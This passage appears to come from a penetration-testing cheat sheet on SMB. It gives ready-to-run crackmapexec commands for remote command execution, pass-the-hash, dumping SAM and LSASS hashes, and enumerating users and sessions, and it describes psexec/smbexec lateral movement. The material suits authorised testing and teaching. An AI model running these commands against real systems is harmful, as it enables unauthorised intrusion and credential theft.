 ## Authenticate using Kerberos

You can **authenticate** to **kerberos** using the tools **smbclient** and **rpcclient**:

```bash
smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com
```

## **Execute Commands**

### **crackmapexec**

crackmapexec can execute commands **abusing** any of **mmcexec, smbexec, atexec, wmiexec** being **wmiexec** the **default** method. You can indicate which option you prefer to use with the parameter `--exec-method`:

```bash
apt-get install crackmapexec

crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute

crackmapexec smb <IP> -d <DOMAIN> -u Administrator -H <HASH> #Pass-The-Hash
```

### [**psexec**](../../windows-hardening/lateral-movement/psexec-and-winexec.md)**/**[**smbexec**](../../windows-hardening/lateral-movement/smbexec.md)

Both options will **create a new service** (using _\pipe\svcctl_ via SMB) in the victim machine and use it to **execute something** (**psexec** will **upload** an executable file to ADMIN$ share and **smbexec** will point to **cmd.exe/powershell.exe** and put in the arguments the payload --**file-less technique-**-).\
**More info** about [**psexec** ](../../windows-hardening/lateral-movement/psexec-and-winexec.md)and [**smbexec**](../../windows-hardening/lateral-movement/smbexec.md).\
In **kali** it is located on /usr/share/doc/python3-impacket/examples/
